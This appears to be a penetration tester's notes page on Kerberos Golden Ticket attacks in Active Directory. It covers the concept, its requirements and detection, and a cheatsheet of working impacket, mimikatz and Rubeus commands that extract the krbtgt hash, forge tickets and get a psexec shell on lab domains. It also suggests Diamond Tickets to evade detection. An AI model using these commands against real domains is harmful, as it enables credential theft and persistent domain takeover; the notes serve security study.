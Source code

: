 # Golden Tickets

Golden tickets are forged Ticket Granting Tickets (TGTs) as part of Kerberos, see [[Active-Directory-Kerberos-Authentication-Defined]] and it one of many techniques of [[Attacking-Kerberos]]. It is a ticket that grants any ticket, which requires KRBTGT accounts password hash, maybe try [[Mimikatz-Cheatsheet]]. With anything Kerberos related a brief overview of PAC. The PAC (Privilege Attribute Certificate) is an extension of Kerberos protocol this is transmitted as a summary in the TGT and TGS. It specifies access of an account. Golden Tickets are a [[Pass-The-Ticket]] attack where the `krbtgt`'s key is used to encrypt the PAC as stolen as we have stolen the `krbtgt` hash and can make all the tickets we need.

#### Words of Warning

*When forging tickets, before November 2021 updates, the user-id and groups-ids were useful but the username supplied was mostly useless. As of Nov. 2021 updates, if the username supplied doesn't exist in Active Directory, the ticket gets rejected. This also applies to Silver Tickets.* - [thehackerrecipes](https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/silver)

#### Detection and Mitigation

[CrowdStrike](https://www.crowdstrike.com/cybersecurity-101/golden-ticket-attack/) recommends:
- 24/7 Threat Hunting
- Secure AD
- Unity detection across environment
- Focus on stopping credential theft

Filter event where Admin Logon
```powershell
# Replcae 4672 with 4624 for user account logon
# If 4769 is without a 4768 then it is inferable that the ticket was forged offline 
Get-WinEvent -FilterHashtable @{Logname='Security';ID=4672} -MaxEvents 1 | Format-List –Property
```
#### Requirements

- KRBTGT account's password hash
- domain name, domain SID, and user ID of account to be impersonated

- With KRBTGT user hash - we don't need the password hash of the account we want to impersonate, it was signed by the KRBTGT hash, this verification passes and the TGT is declared valid no matter its contents.
- KDC will only validate the user account specified in the TGT **if the account is older than 20 minutes**
	- Allowing for disabled, deleted, or non-existent account in the TGT 
- TGT no older than 20 minutes!
- TGT sets the policies and rules, Golden Tickets can overwrite the KDC 
- By default, the KRBTGT account's password never changes
	- Blue team would have to rotate the KRBTGT account password atleast twice, is an incredibly painful process for the blue team
		- Not all services are smart enough to release the TGT is no longer valid (since the timestamp is still valid) and thus won't auto-request a new TGT.
- Golden Tickets allow even bypass smart card authentication as smart cards are verified by the DC before it creates the TGT.
- Golden ticket can created non domain joined machines!

With a Golden ticket the first interaction is a TGS-REQ using the TGT (Golden Ticket), there is no prior credential submission or AS-REQ / AS-REP. The DC checks and verifies it. It is considered a important persistence method see [[AD-Persistence-Tickets]].

#### Considerations

As was mentioned with Detection and Mitigation section [thehacker.recipes](https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/golden) states *For Golden and Silver tickets, it's important to remember that, by default, [ticketer](https://github.com/SecureAuthCorp/impacket/blob/a16198c3312d8cfe25b329907b16463ea3143519/examples/ticketer.py#L740-L741) and [mimikatz](https://github.com/gentilkiwi/mimikatz/wiki/module-~-kerberos) forged tickets containing PACs that say the user belongs to some well-known administrators groups (i.e. group ids 513, 512, 520, 518, 519). There are scenarios where these groups are not enough (special machines where even Domain Admins don't have local admin rights). In these situations, testers can specify all the groups ids when creating the ticket. However, deny ACEs could actually prevent this from working. Encountering a Deny ACE preventing domain admins to log on could be an issue when having all groups ids in the ticket, including the domain admin group id. This solution can also be really inconvenient in domains that have lots of groups. Another solution to this is to look for a specific user with appropriate rights to impersonate and use [GoldenCopy](https://github.com/Dramelac/GoldenCopy) to generate a command that allows to forge a ticket with specific values corresponding to the target user (sid, group ids, etc.). The values are gathered from a [[neo4j]] database.*


#### Cheatsheet

Linux
```bash
# Find the domain SID
lookupsid.py -hashes 'LMhash:NThash' 'DOMAIN/DomainUser@DomainController' 0

# Create the golden ticket (with an RC4 key, i.e. NT hash)
ticketer.py -nthash $krbtgtNThash -domain-sid $domainSID -domain $DOMAIN randomuser

# Create the golden ticket (with an AES 128/256bits key)
ticketer.py -aesKey $krbtgtAESkey -domain-sid $domainSID -domain $DOMAIN randomuser

# Create the golden ticket (with an RC4 key, i.e. NT hash) with custom user/groups ids
ticketer.py -nthash $krbtgtNThash -domain-sid $domainSID -domain $DOMAIN -user-id $USERID -groups $GROUPID1,$GROUPID2,... randomuser


# Use ticketer to request a ticket
impacket-ticketer -nthash 25b2076cda3bfd6209161a6c78a69c1c -domain-sid S-1-5-21-1339291983-1349129144-367733775 -domain jurassic.park stegosaurus
# Export the ccache file as an evironment variable
export KRB5CCNAME=stegosaurus.ccache
# psexc in! most impacket scripts have a -k for kerberos auth only if you also provide -no-pass flag
impacket-psexec jurassic.park/stegosaurus@lab-wdc02.jurassic.park -k -no-pass
```

Windows
```c
// Extract krbtgt account password NTLM hash
mimikatz # lsadump::lsa /inject /name:krbtgt
// Create Ticket


// Mimikatz
mimikatz # kerberos::golden /domain:offense.local /sid:S-1-5-21-4172452648-1021989953-2368502130 /rc4:8584cfccd24f6a7f49ee56355d41bd30 /user:newAdmin /id:500 /ptt
// Rubeus
.\Rubeus.exe ptt /ticket:ticket.kirbi


// Cehck if ticket is created
PS> klist
```

Check the domain policy regard Kerberos
```powershell
# Beware the lifetimes
Get-DomainPolicy | select -expand KerberosPolicy
```
To bypass most of the detection mechanisms for Golden Tickets use a [[Diamond-Tickets]] instead.
## References

[THM AD Persistence Room](https://tryhackme.com/room/persistingad)
[Kerberos and Attacks 101 by Tim Medin](https://www.youtube.com/watch?v=9lOFpUA25Nk)
[Hackndo - Golden and Silver tickets](https://en.hackndo.com/kerberos-silver-golden-tickets/)
[thehacker.recipe - Golden Tickets](https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/golden)
[iredteam Golden Tickets](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-golden-tickets)
[HackTicks - Golden Tickets](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/golden-ticket)
[GoldenCopy](https://github.com/Dramelac/GoldenCopy) 
[thehacker.recipes](https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/golden) 